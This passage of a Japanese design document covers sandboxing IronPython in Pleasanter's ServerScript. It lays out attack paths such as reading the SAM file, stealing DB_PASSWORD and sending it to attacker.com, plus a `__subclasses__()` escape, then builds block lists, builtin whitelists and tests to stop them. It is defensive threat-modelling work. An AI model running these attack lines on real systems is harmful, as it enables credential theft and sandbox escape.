clr.AddReference("System")
from System.Diagnostics import Process
Process.Start("cmd", "/c whoami > C:\\temp\\output.txt")

# 攻撃パス 2: ファイルシステムアクセス
import clr
clr.AddReference("System.IO")
from System.IO import File, Directory
content = File.ReadAllText("C:\\Windows\\System32\\config\\SAM")

# 攻撃パス 3: 環境変数の窃取
import clr
clr.AddReference("System")
from System import Environment
db_password = Environment.GetEnvironmentVariable("DB_PASSWORD")

# 攻撃パス 4: ネットワークアクセス
import clr
clr.AddReference("System.Net.Http")
from System.Net.Http import HttpClient
client = HttpClient()
client.GetStringAsync("http://attacker.com/exfil?data=" + db_password).Result

# 攻撃パス 5: clr なしでの .NET アクセス（IronPython 固有）
# IronPython では一部の .NET 型がデフォルトで利用可能
import System
System.IO.File.ReadAllText("/etc/passwd")

# 攻撃パス 6: リフレクション
import clr
clr.AddReference("System.Runtime")
from System.Reflection import Assembly
asm = Assembly.Load("System.Diagnostics.Process")
```

### .NET interop のブロック実装

#### 方式 1: `clr` モジュールのインポート禁止（`__import__` で対応）

カスタム `__import__` のホワイトリストから `clr` を除外することで、`import clr` を禁止する。これは Layer 2 のカスタム `__import__` で自動的に対応される。

#### 方式 2: `ScriptRuntime` での .NET アセンブリ制限

```csharp
public static ScriptEngine CreateRestrictedEngine()
{
    var setup = new ScriptRuntimeSetup();
    setup.LanguageSetups.Add(
        IronPython.Hosting.Python.CreateLanguageSetup(null));

    // ホストがアクセスを許可するアセンブリを最小限に制限
    // IronPython 自体のアセンブリのみロードし、
    // System.Diagnostics.Process 等は含めない
    var runtime = new ScriptRuntime(setup);

    var engine = runtime.GetEngine("IronPython");

    // SearchPaths を空にして外部モジュールのロードを防止
    engine.SetSearchPaths(new List<string>());

    return engine;
}
```

#### 方式 3: `ScriptScope` からの .NET 名前空間の除去

```csharp
public static void BlockDotNetNamespaces(ScriptEngine engine, ScriptScope scope)
{
    // IronPython のデフォルトスコープから .NET 名前空間を除去
    var blockScript = @"
import sys

# sys.modules から .NET 関連モジュールを除去・ブロック
_dotnet_modules = [
    'clr', 'System', 'Microsoft',
    'System.IO', 'System.Diagnostics',
    'System.Net', 'System.Net.Http',
    'System.Reflection', 'System.Runtime',
    'System.Threading', 'System.Environment',
]
for mod in _dotnet_modules:
    sys.modules[mod] = None
";
    engine.Execute(blockScript, scope);
}
```

#### 方式 4: IronPython の `-X:NoClr` オプション（調査結果）

IronPython の内部オプションとして、CLR interop を無効化するフラグが存在する可能性がある。

```csharp
var options = new Dictionary<string, object>
{
    // IronPython 3.4 でサポートされるかは要検証
    // ["NoClr"] = true,  // CLR interop 無効化（未確認）
};

var engine = Python.CreateEngine(options);
```

> **調査結果**: IronPython 3.4.x には公式の `NoClr` オプションは存在しない。CLR interop のブロックはアプリケーションレベルで `__import__` 制御と `sys.modules` 操作を組み合わせて実装する必要がある。

### .NET CAS (Code Access Security) について

.NET Framework 時代には **Code Access Security (CAS)** による AppDomain レベルのサンドボックスが利用可能だった。しかし、.NET Core / .NET 5+ では **CAS は廃止**されている。

| .NET バージョン    | CAS サポート | 代替手段                               |
| ------------------ | :----------: | -------------------------------------- |
| .NET Framework 4.x |      ◎       | AppDomain + SecurityPermission         |
| .NET Core 3.1      |      ×       | -                                      |
| .NET 5 / 6 / 7 / 8 |      ×       | アプリケーションレベルのサンドボックス |
| .NET 10            |      ×       | アプリケーションレベルのサンドボックス |

**結論**: .NET 8+ ではランタイムレベルのサンドボックスは利用不可。IronPython のサンドボックスはすべてアプリケーションレベルで実装する必要がある。

---

## 統合実装: SandboxedPythonEngine

以上の 4 レイヤーを統合した、本番環境向けのサンドボックス付き Python エンジン実装。

```csharp
using IronPython.Hosting;
using IronPython.Runtime;
using Microsoft.Scripting;
using Microsoft.Scripting.Hosting;
using System;
using System.Collections.Generic;
using System.IO;
using System.Linq;

namespace Implem.Pleasanter.Libraries.ServerScripts
{
    /// <summary>
    /// サンドボックス化された IronPython 実行エンジン。
    /// 4 層の防御で OS レベル操作をブロックする。
    /// </summary>
    public class SandboxedPythonEngine : IDisposable
    {
        private ScriptEngine _engine;
        private ScriptScope _scope;
        private bool _disposed;

        // ===== Layer 2: 許可するモジュールのホワイトリスト =====
        private static readonly HashSet<string> AllowedModules = new(
            StringComparer.Ordinal)
        {
            // 安全な純粋計算モジュール
            "json", "math", "cmath", "datetime", "re",
            "collections", "collections.abc",
            "itertools", "functools", "operator",
            "string", "decimal", "fractions", "numbers",
            "copy", "enum", "typing", "abc",
            "textwrap", "unicodedata",
            "base64", "hashlib", "hmac", "uuid",
            "random", "statistics",
            "bisect", "heapq", "array", "struct",
            "calendar", "pprint",
            // IronPython 内部で必要なモジュール
            "builtins", "_collections", "_functools",
            "_operator", "_string", "_sre",
            "encodings", "codecs", "_codecs",
        };

        // ===== Layer 1: 許可する builtins =====
        private static readonly HashSet<string> AllowedBuiltins = new()
        {
            // 型変換
            "int", "float", "str", "bool", "bytes", "bytearray",
            "complex", "list", "tuple", "dict", "set", "frozenset",
            // 数値
            "abs", "round", "pow", "divmod", "min", "max", "sum",
            // イテレーション
            "range", "len", "enumerate", "zip", "map", "filter",
            "sorted", "reversed", "iter", "next", "all", "any",
            // 文字列
            "chr", "ord", "repr", "format", "ascii", "hex", "oct", "bin",
            // オブジェクト（安全）
            "isinstance", "issubclass", "id", "hash", "callable",
            "hasattr",
            // クラス
            "staticmethod", "classmethod", "property", "super",
            "object", "slice",
            // 例外
            "ValueError", "TypeError", "KeyError", "IndexError",
            "AttributeError", "RuntimeError", "StopIteration",
            "Exception", "ArithmeticError", "LookupError",
            "NotImplementedError", "ZeroDivisionError",
            "OverflowError", "TimeoutError", "ImportError",
            // 定数
            "True", "False", "None",
            // print（オプション: ログ出力用に許可する場合）
            "print",
        };

        // ===== Layer 3 & 4: ブロックするモジュール =====
        private static readonly string[] BlockedModules = new[]
        {
            // OS / プロセス
            "os", "os.path", "subprocess", "shutil", "signal",
            "nt", "posix", "posixpath", "ntpath",
            // I/O
            "io", "_io", "pathlib", "tempfile", "glob",
            // ネットワーク
            "socket", "_socket", "_ssl",
            "http", "http.client", "http.server",
            "urllib", "urllib.request", "urllib.parse",
            "ftplib", "smtplib", "poplib", "imaplib",
            "webbrowser",
            // スレッド / プロセス
            "multiprocessing", "threading", "_thread",
            "concurrent", "concurrent.futures", "asyncio",
            // データ永続化（ファイル依存）
            "pickle", "shelve", "dbm", "sqlite3",
            // アーカイブ（ファイル依存）
            "zipfile", "tarfile", "gzip", "bz2", "lzma",
            // セキュリティリスク
            "ctypes", "importlib", "xml",
            // デバッグ / イントロスペクション
            "inspect", "dis", "code", "codeop",
            "compileall", "py_compile",
            "pdb", "profile", "cProfile", "trace",
            // .NET interop
            "clr", "System", "Microsoft",
            "System.IO", "System.Diagnostics",
            "System.Net", "System.Net.Http",
            "System.Reflection", "System.Runtime",
            "System.Threading", "System.Environment",
        };

        /// <summary>
        /// サンドボックス化された Python エンジンを生成する。
        /// </summary>
        /// <param name="debug">デバッグモードの有効化</param>
        public SandboxedPythonEngine(bool debug = false)
        {
            var options = new Dictionary<string, object>
            {
                ["Debug"] = debug,
            };

            _engine = Python.CreateEngine(options);

            // Layer 3: SearchPaths を空にして外部 .py ファイルの
            //          ロードを防止
            _engine.SetSearchPaths(new List<string>());

            _scope = _engine.CreateScope();

            // Layer 4: .NET interop モジュールをブロック
            PoisonBlockedModules();

            // Layer 1: __builtins__ を安全な辞書に差し替え
            RestrictBuiltins();

            // Layer 2: カスタム __import__ を注入
            InjectSafeImport();
        }

        /// <summary>
        /// ホストオブジェクトをスコープに登録する。
        /// </summary>
        public void SetVariable(string name, object value)
        {
            _scope.SetVariable(name, value);
        }

        /// <summary>
        /// Python コードを実行する。
        /// </summary>
        public void Execute(string code)
        {
            var source = _engine.CreateScriptSourceFromString(
                code, SourceCodeKind.Statements);
            source.Execute(_scope);
        }

        /// <summary>
        /// Python 式を評価して結果を返す。
        /// </summary>
        public object Evaluate(string expression)
        {
            var source = _engine.CreateScriptSourceFromString(
                expression, SourceCodeKind.Expression);
            return source.Execute(_scope);
        }

        // ===== Private: Layer 1 — __builtins__ 制限 =====
        private void RestrictBuiltins()
        {
            var builtinsModule = _engine.GetBuiltinModule();
            var safeBuiltins = new PythonDictionary();

            foreach (var name in AllowedBuiltins)
            {
                if (builtinsModule.TryGetVariable(name, out dynamic value))
                {
                    safeBuiltins[name] = value;
                }
            }

            // __import__ は Layer 2 で上書きされるため、
            // ここではプレースホルダーとして設定
            _scope.SetVariable("__builtins__", safeBuiltins);
        }

        // ===== Private: Layer 2 — カスタム __import__ =====
        private void InjectSafeImport()
        {
            // まず元の __import__ を保存してからホワイトリスト制御を注入
            // ※ この時点では __builtins__ は辞書に差し替え済みだが、
            //    エンジンレベルの import 機構はまだ有効
            var importScript = $@"
import sys as _sys

# 元の __import__ を保存
_original_import = _sys.modules['builtins'].__import__ \
    if hasattr(_sys.modules.get('builtins', None), '__import__') \
    else __builtins__.get('__import__', None) if isinstance(__builtins__, dict) \
    else getattr(__builtins__, '__import__', None)

# 許可モジュールセット
_allowed_modules = {{{string.Join(", ",
    AllowedModules.Select(m => $"'{m}'"))}}}

def _sandboxed_import(name, globals=None, locals=None,
                      fromlist=(), level=0):
    top_level = name.split('.')[0] if '.' in name else name
    if name not in _allowed_modules and top_level not in _allowed_modules:
        raise ImportError(
            f""Module '{{name}}' is not allowed in sandboxed environment"")
    return _original_import(name, globals, locals, fromlist, level)

# __builtins__ 辞書に安全な __import__ を注入
if isinstance(__builtins__, dict):
    __builtins__['__import__'] = _sandboxed_import
else:
    __builtins__.__import__ = _sandboxed_import

# sys モジュール自体を sys.modules から除去して
# 以降のスクリプトからアクセス不能にする
del _sys
";
            // この初期化スクリプトは制限適用前に実行する必要がある
            // 一時的に engine レベルで直接実行
            var source = _engine.CreateScriptSourceFromString(
                importScript, SourceCodeKind.Statements);
            source.Execute(_scope);

            // sys モジュールへの参照を削除
            CleanupSysAccess();
        }

        // ===== Private: Layer 3 & 4 — モジュールポイズニング =====
        private void PoisonBlockedModules()
        {
            var modulesList = string.Join(", ",
                BlockedModules.Select(m => $"'{m}'"));

            var script = $@"
import sys
for _mod in [{modulesList}]:
    sys.modules[_mod] = None
";
            var source = _engine.CreateScriptSourceFromString(
                script, SourceCodeKind.Statements);
            source.Execute(_scope);
        }

        // ===== Private: sys アクセスのクリーンアップ =====
        private void CleanupSysAccess()
        {
            var script = @"
import sys as _sys_cleanup
# sys.modules から sys 自体を参照不能にはしないが、
# スコープ変数としての sys は削除
# ※ sys を完全に削除すると IronPython 内部で問題が
#    発生する可能性があるため、builtins からのアクセスのみ制限
try:
    del _sys_cleanup
except:
    pass
";
            var source = _engine.CreateScriptSourceFromString(
                script, SourceCodeKind.Statements);
            source.Execute(_scope);
        }

        public void Dispose()
        {
            if (!_disposed)
            {
                _scope = null;
                _engine?.Runtime?.Shutdown();
                _engine = null;
                _disposed = true;
            }
        }
    }
}
```

### 使用例

```csharp
// === ServerScript での使用例 ===
using (var sandbox = new SandboxedPythonEngine())
{
    // ホストオブジェクトの注入（Pleasanter モデル）
    sandbox.SetVariable("context", serverScriptModel.Context);
    sandbox.SetVariable("model", serverScriptModel.Model);
    sandbox.SetVariable("items", serverScriptModel.Items);
    sandbox.SetVariable("httpClient", serverScriptModel.HttpClient);

    // 安全なスクリプト実行
    sandbox.Execute(userScript);
}
```

### テストケース: サンドボックスの検証

```csharp
[TestClass]
public class SandboxTests
{
    [TestMethod]
    [ExpectedException(typeof(ImportError))]  // IronPython の例外
    public void BlocksOsImport()
    {
        using var sandbox = new SandboxedPythonEngine();
        sandbox.Execute("import os");
    }

    [TestMethod]
    [ExpectedException(typeof(ImportError))]
    public void BlocksSubprocessImport()
    {
        using var sandbox = new SandboxedPythonEngine();
        sandbox.Execute("import subprocess");
    }

    [TestMethod]
    [ExpectedException(typeof(ImportError))]
    public void BlocksClrImport()
    {
        using var sandbox = new SandboxedPythonEngine();
        sandbox.Execute("import clr");
    }

    [TestMethod]
    [ExpectedException(typeof(ImportError))]
    public void BlocksSystemImport()
    {
        using var sandbox = new SandboxedPythonEngine();
        sandbox.Execute("import System");
    }

    [TestMethod]
    [ExpectedException(typeof(ImportError))]
    public void BlocksSystemDiagnosticsViaClr()
    {
        using var sandbox = new SandboxedPythonEngine();
        sandbox.Execute(@"
import clr
clr.AddReference('System')
from System.Diagnostics import Process
");
    }

    [TestMethod]
    public void AllowsJsonImport()
    {
        using var sandbox = new SandboxedPythonEngine();
        sandbox.Execute("import json; result = json.dumps({'key': 'value'})");
    }

    [TestMethod]
    public void AllowsMathImport()
    {
        using var sandbox = new SandboxedPythonEngine();
        var result = sandbox.Evaluate("__import__('math').sqrt(16)");
        Assert.AreEqual(4.0, result);
    }

    [TestMethod]
    public void AllowsDatetimeImport()
    {
        using var sandbox = new SandboxedPythonEngine();
        sandbox.Execute(
            "import datetime; d = datetime.datetime(2026, 1, 1)");
    }

    [TestMethod]
    [ExpectedException(typeof(Exception))]
    public void BlocksExecBuiltin()
    {
        using var sandbox = new SandboxedPythonEngine();
        sandbox.Execute("exec('import os')");
    }

    [TestMethod]
    [ExpectedException(typeof(Exception))]
    public void BlocksEvalBuiltin()
    {
        using var sandbox = new SandboxedPythonEngine();
        sandbox.Execute("eval('__import__(\"os\")')");
    }

    [TestMethod]
    [ExpectedException(typeof(Exception))]
    public void BlocksOpenBuiltin()
    {
        using var sandbox = new SandboxedPythonEngine();
        sandbox.Execute("f = open('/etc/passwd', 'r')");
    }

    [TestMethod]
    [ExpectedException(typeof(Exception))]
    public void BlocksCompileBuiltin()
    {
        using var sandbox = new SandboxedPythonEngine();
        sandbox.Execute("c = compile('import os', '<string>', 'exec')");
    }

    [TestMethod]
    [ExpectedException(typeof(ImportError))]
    public void BlocksImportlibBypass()
    {
        using var sandbox = new SandboxedPythonEngine();
        sandbox.Execute("import importlib; importlib.import_module('os')");
    }

    [TestMethod]
    public void HostObjectsAccessible()
    {
        using var sandbox = new SandboxedPythonEngine();
        sandbox.SetVariable("value", 42);
        var result = sandbox.Evaluate("value * 2");
        Assert.AreEqual(84, result);
    }

    [TestMethod]
    [ExpectedException(typeof(Exception))]
    public void BlocksExitBuiltin()
    {
        using var sandbox = new SandboxedPythonEngine();
        sandbox.Execute("exit()");
    }

    [TestMethod]
    [ExpectedException(typeof(ImportError))]
    public void BlocksSocketImport()
    {
        using var sandbox = new SandboxedPythonEngine();
        sandbox.Execute("import socket");
    }

    [TestMethod]
    [ExpectedException(typeof(ImportError))]
    public void BlocksPickleImport()
    {
        using var sandbox = new SandboxedPythonEngine();
        sandbox.Execute("import pickle");
    }
}
```

---

## `clr.AddReference()` のブロック

### 問題

`clr` モジュールがインポートできた場合、`clr.AddReference()` で任意の .NET アセンブリをランタイムにロードできる。

```python
import clr
clr.AddReference("System.Diagnostics.Process")
from System.Diagnostics import Process
Process.Start("cmd")
```

### 対策

`clr` モジュールのインポート自体をカスタム `__import__` でブロックするのが最も確実。仮に `clr` へのアクセスが必要なケースがあった場合（通常は不要）のために、`clr` のラッパーも用意する。

```csharp
/// <summary>
/// clr モジュールのラッパー。AddReference を完全にブロックする。
/// ※通常は clr 自体をブロックするため、このクラスは使用しない。
///   特殊なケースで clr の一部機能のみ許可する場合に使用。
/// </summary>
public class RestrictedClrModule
{
    public void AddReference(string assemblyName)
    {
        throw new UnauthorizedAccessException(
            $"clr.AddReference('{assemblyName}') is not allowed " +
            "in sandboxed environment.");
    }

    public void AddReferenceToFile(string filename)
    {
        throw new UnauthorizedAccessException(
            "clr.AddReferenceToFile() is not allowed " +
            "in sandboxed environment.");
    }

    public void AddReferenceByName(string name)
    {
        throw new UnauthorizedAccessException(
            "clr.AddReferenceByName() is not allowed " +
            "in sandboxed environment.");
    }

    public void AddReferenceToFileAndPath(string filename)
    {
        throw new UnauthorizedAccessException(
            "clr.AddReferenceToFileAndPath() is not allowed " +
            "in sandboxed environment.");
    }
}
```

---

## `System.Diagnostics.Process.Start()` のブロック

### 問題

.NET interop 経由で `Process.Start()` を呼び出すことでシステムコマンドを実行できる。

### 対策

多層防御の Layer 2（`clr` インポート禁止）と Layer 4（`System` 名前空間ブロック）で防止される。追加の安全策として、ホストオブジェクト経由で注入される C# オブジェクトに `Process` 型のメンバーを含めないことを徹底する。

```csharp
/// <summary>
/// ホストオブジェクト注入時の安全チェック。
/// Process や FileInfo 等の危険な型が含まれていないことを検証する。
/// </summary>
public static class HostObjectValidator
{
    private static readonly HashSet<Type> DangerousTypes = new()
    {
        typeof(System.Diagnostics.Process),
        typeof(System.Diagnostics.ProcessStartInfo),
        typeof(System.IO.File),
        typeof(System.IO.FileInfo),
        typeof(System.IO.Directory),
        typeof(System.IO.DirectoryInfo),
        typeof(System.IO.StreamReader),
        typeof(System.IO.StreamWriter),
        typeof(System.Net.WebClient),
        typeof(System.Net.Http.HttpClient),  // Pleasanter 独自の制限版は許可
        typeof(System.Reflection.Assembly),
    };

    /// <summary>
    /// オブジェクトの型が危険リストに含まれていないかチェックする。
    /// </summary>
    public static void Validate(string name, object obj)
    {
        if (obj == null) return;

        var type = obj.GetType();
        if (DangerousTypes.Contains(type))
        {
            throw new InvalidOperationException(
                $"Type '{type.FullName}' cannot be injected " +
                $"as host object '{name}'.");
        }
    }
}
```

---

## `System.IO.File` アクセスのブロック

### 問題

```python
# .NET interop 経由のファイルアクセス
import clr
clr.AddReference("System.IO.FileSystem")
from System.IO import File
content = File.ReadAllText("C:\\secrets.txt")

# または IronPython が自動的に System 名前空間を解決する場合
from System.IO import File
```

### 対策

1. `clr` モジュールのインポートブロック（Layer 2）
2. `System` 名前空間のモジュールポイズニング（Layer 4）
3. `PlatformAdaptationLayer` でファイルアクセス自体をブロック（Layer 3）

これら 3 層の防御により、`System.IO.File` への到達は事実上不可能になる。

---

## 追加の防御策

### 1. タイムアウトと組み合わせ

サンドボックスと組み合わせてタイムアウトを設定し、リソース枯渇攻撃（無限ループ等）を防止する。

```csharp
public class SandboxedPythonEngineWithTimeout : SandboxedPythonEngine
{
    private readonly TimeSpan _timeout;
    private readonly CancellationTokenSource _cts;

    public SandboxedPythonEngineWithTimeout(
        TimeSpan timeout, bool debug = false) : base(debug)
    {
        _timeout = timeout;
        _cts = new CancellationTokenSource();
    }

    /// <summary>
    /// タイムアウト付きでスクリプトを実行する。
    /// sys.settrace を使用してステートメントごとに
    /// キャンセルチェックを行う。
    /// </summary>
    public void ExecuteWithTimeout(string code)
    {
        // タイムアウトコールバックをホストオブジェクトとして注入
        var deadline = DateTime.UtcNow.Add(_timeout);
        SetVariable("_timeout_deadline", deadline);
        SetVariable("_check_timeout",
            new Func<bool>(() => DateTime.UtcNow < deadline));

        // sys.settrace によるタイムアウトチェックを注入
        // ※ sys モジュールは初期化時にブロックしているため、
        //    エンジンレベルで settrace を設定する必要がある
        var traceSetup = @"
def _trace_func(frame, event, arg):
    if not _check_timeout():
        raise TimeoutError('Script execution timeout')
    return _trace_func

import sys
sys.settrace(_trace_func)
del sys
";
        // トレース設定は制限前に実行
        base.Execute(traceSetup);
        base.Execute(code);
    }
}
```

### 2. メモリ消費の制限

IronPython にはメモリ制限の直接的な機能はない。大量メモリ割当による DoS 攻撃への対策:

| 方式                  | 説明                                     | 実現性 |
| --------------------- | ---------------------------------------- | :----: |
| Docker メモリ制限     | コンテナレベルでメモリ上限を設定         |   ◎    |
| GC 監視               | `GC.GetTotalMemory()` で定期的に監視     |   ○    |
| リスト/辞書サイズ制限 | ラップしたコレクション型で要素数を制限   |   △    |
| プロセス分離          | 別プロセスでスクリプト実行しリソース制限 |   ○    |

### 3. 属性アクセス制限（`__getattr__` フック）

ホストオブジェクト経由で .NET の危険な型にアクセスされることを防ぐために、ホストオブジェクトをラッパーで包む方式。

```csharp
/// <summary>
/// Python スクリプトに公開するホストオブジェクトのラッパー。
/// .NET interop で危険な属性（GetType().Assembly 等）へのアクセスを制限する。
/// </summary>
public class SafeHostObject : DynamicObject
{
    private readonly object _target;
    private static readonly HashSet<string> BlockedMembers = new()
    {
        "GetType",      // リフレクション入口
        "GetHashCode",  // 不要（安全だが不要）
    };

    public SafeHostObject(object target)
    {
        _target = target;
    }

    public override bool TryGetMember(
        GetMemberBinder binder, out object result)
    {
        if (BlockedMembers.Contains(binder.Name))
        {
            throw new UnauthorizedAccessException(
                $"Access to '{binder.Name}' is not allowed.");
        }

        var type = _target.GetType();
        var prop = type.GetProperty(binder.Name);
        if (prop != null)
        {
            result = prop.GetValue(_target);
            return true;
        }

        var field = type.GetField(binder.Name);
        if (field != null)
        {
            result = field.GetValue(_target);
            return true;
        }

        result = null;
        return false;
    }

    public override bool TryInvokeMember(
        InvokeMemberBinder binder, object[] args, out object result)
    {
        if (BlockedMembers.Contains(binder.Name))
        {
            throw new UnauthorizedAccessException(
                $"Access to '{binder.Name}' is not allowed.");
        }

        var type = _target.GetType();
        var method = type.GetMethod(binder.Name);
        if (method != null)
        {
            result = method.Invoke(_target, args);
            return true;
        }

        result = null;
        return false;
    }
}
```

> **注意**: `DynamicObject` ラッパー方式はパフォーマンスへの影響がある。
> ServerScript のホストオブジェクト（`context`, `model` 等）は
> `ExpandoObject` ベースであり、リフレクション経由の攻撃リスクは限定的。
> ホストオブジェクトに .NET の型インスタンス（例: `HttpClient`）を
> 注入する場合にのみ検討する。

---

## 既知の制限とエスケープリスク

### 完全にブロックできるもの

| 攻撃手法                   | ブロック方法          | 確信度 |
| -------------------------- | --------------------- | :----: |
| `import os` / `subprocess` | カスタム `__import__` |   ◎    |
| `open()` ファイルアクセス  | `__builtins__` 制限   |   ◎    |
| `exec()` / `eval()`        | `__builtins__` 制限   |   ◎    |
| `exit()` / `quit()`        | `__builtins__` 制限   |   ◎    |
| `import clr`               | カスタム `__import__` |   ◎    |
| `import System`            | カスタム `__import__` |   ◎    |
| `.py` ファイルインポート   | SearchPaths クリア    |   ◎    |
| `clr.AddReference()`       | `clr` インポート禁止  |   ◎    |

### 注意が必要なもの

| リスク                                 | 説明                                                    | 対策                               |
| -------------------------------------- | ------------------------------------------------------- | ---------------------------------- |
| `object.__subclasses__()` による型探索 | `object` の全サブクラスにアクセスし、危険な型を発見     | `__subclasses__` をブロック        |
| `type.__bases__` 遡上                  | 基底クラスを辿って `object` に到達し `__subclasses__()` | `getattr` 制限が有効               |
| `__class__.__mro__` 探索               | MRO を辿って任意の型にアクセス                          | メタクラス属性のブロック           |
| ホストオブジェクトの `.GetType()`      | 注入された C# オブジェクトからリフレクション            | `SafeHostObject` ラッパー          |
| `globals()` / `locals()`               | スコープの辞書を取得してサンドボックス設定を変更        | `__builtins__` から除外            |
| 文字列操作による動的コード生成         | `compile` なしで間接的にコード実行を試みる              | `exec` / `eval` / `compile` の除外 |
| CPU 枯渇（無限ループ）                 | `while True: pass`                                      | `sys.settrace` + タイムアウト      |
| メモリ枯渇                             | `x = [0] * (10**9)`                                     | Docker メモリ制限 / GC 監視        |

### Python の `__subclasses__()` エスケープ

CPython で知られるサンドボックスエスケープ手法:

```python
# CPython でのエスケープ例（IronPython では動作が異なる場合がある）
().__class__.__bases__[0].__subclasses__()
# → object の全サブクラスにアクセスし、FileLoader 等を発見

# 対策: __builtins__ から type, getattr を除外し、
# __class__, __bases__, __subclasses__ への直接アクセスを
# 制限する（IronPython の DLR ではこの攻撃パスは
# CPython と異なる挙動を示す可能性がある）
```

**IronPython における状況**: IronPython は DLR 上に構築されているため、
CPython のオブジェクトモデルとは一部異なる。
`__subclasses__()` が返す型のセットも異なり、
ファイルローダー等の内部クラスが含まれない場合がある。
ただし、.NET 型がサブクラスとして列挙される可能性があるため、
`type` のブロックと `__subclasses__` へのアクセス制限は実施すべきである。

---

## 本番環境向けチェックリスト

サンドボックス実装のデプロイ前に確認すべき項目:

| #   | カテゴリ     | チェック項目                                                   | 状態 |
| --- | ------------ | -------------------------------------------------------------- | :--: |
| 1   | Layer 1      | `exec`, `eval`, `compile` が `__builtins__` から除外されている |  □   |
| 2   | Layer 1      | `open`, `input` が `__builtins__` から除外されている           |  □   |
| 3   | Layer 1      | `exit`, `quit`, `breakpoint` が除外されている                  |  □   |
| 4   | Layer 1      | `globals`, `locals` が除外されている                           |  □   |
| 5   | Layer 2      | カスタム `__import__` がホワイトリスト方式で動作する           |  □   |
| 6   | Layer 2      | `os`, `subprocess`, `socket` 等がインポート不可                |  □   |
| 7   | Layer 2      | `importlib` がブロックされ、動的インポート回避が不可           |  □   |
| 8   | Layer 3      | `SearchPaths` が空に設定されている                             |  □   |
| 9   | Layer 3      | `PlatformAdaptationLayer` でファイルアクセスが制限されている   |  □   |
| 10  | Layer 4      | `import clr` がブロックされている                              |  □   |
| 11  | Layer 4      | `import System` がブロックされている                           |  □   |
| 12  | Layer 4      | `sys.modules` に危険なモジュールが `None` で登録されている     |  □   |
| 13  | タイムアウト | `sys.settrace` によるタイムアウト制御が実装されている          |  □   |
| 14  | テスト       | 全ブロック対象モジュールのインポートテストが存在する           |  □   |
| 15  | テスト       | `__builtins__` 制限関数のテストが存在する                      |  □   |
| 16  | テスト       | .NET interop エスケープテスト（`clr`, `System`）が存在する     |  □   |
| 17  | テスト       | ホストオブジェクト経由の正常操作テストが存在する               |  □   |
| 18  | テスト       | `__subclasses__()` エスケープテストが存在する                  |  □   |
| 19  | 運用         | Docker メモリ制限が設定されている                              |  □   |
| 20  | 運用         | スクリプト実行ログ（エラーログ）が記録されている               |  □   |

---

## 結論

| 項目                              | 結論                                                                                        |
| --------------------------------- | ------------------------------------------------------------------------------------------- |
| `__builtins__` 制限               | 有効。IronPython 3 では `exec`/`eval` は関数であり、辞書差し替えでブロック可能              |
| カスタム `__import__`             | 最も効果的な防御レイヤー。ホワイトリスト方式でビルトイン・ファイルモジュール両方を制御可能  |
| `PlatformAdaptationLayer`         | ファイルベースモジュールのブロックに有効。ビルトインモジュールには効果なし                  |
| `ScriptRuntime` オプション        | 直接的なサンドボックス機能は存在しない。アプリケーションレベルでの実装が必要                |
| .NET CAS                          | .NET 8+ では廃止。利用不可                                                                  |
| `clr.AddReference()` 防止         | `clr` モジュール自体のインポートブロックで対応                                              |
| `System.Diagnostics.Process` 防止 | `clr` / `System` インポートブロック + `sys.modules` ポイズニングの多層防御                  |
| `System.IO.File` 防止             | 同上 + `PlatformAdaptationLayer` の 3 層防御                                                |
| 推奨アプローチ                    | **4 層防御**（builtins + import + PAL + .NET interop）の組み合わせ                          |
| 残存リスク                        | `__subclasses__()` エスケープ、メモリ枯渇、CPU 枯渇（タイムアウトで対策）                   |
| 本番適用                          | POC で全テストケースを実行し、IronPython 3.4.x 固有の挙動を検証してから本番デプロイすること |

---

## 関連ドキュメント

- [ServerScript 実装](006-ServerScript実装.md) — 現行 ClearScript アーキテクチャの詳細
- [ServerScript Python 対応の実現可能性調査](007-ServerScript-Python対応.md) — Python エンジン選定・実装方針

## 関連リンク

| リンク                                                                                              | 内容                                         |
| --------------------------------------------------------------------------------------------------- | -------------------------------------------- |
| [IronPython 3 GitHub](https://github.com/IronLanguages/ironpython3)                                 | IronPython 3 ソースコード                    |
| [DLR Hosting API](https://github.com/IronLanguages/dlr)                                             | Dynamic Language Runtime ホスティング API    |
| [IronPython Wiki](https://github.com/IronLanguages/ironpython3/wiki)                                | IronPython 3 ドキュメント                    |
| [.NET CAS 廃止](https://learn.microsoft.com/dotnet/fundamentals/code-analysis/quality-rules/ca5362) | .NET での CAS 非推奨に関する公式ドキュメント |
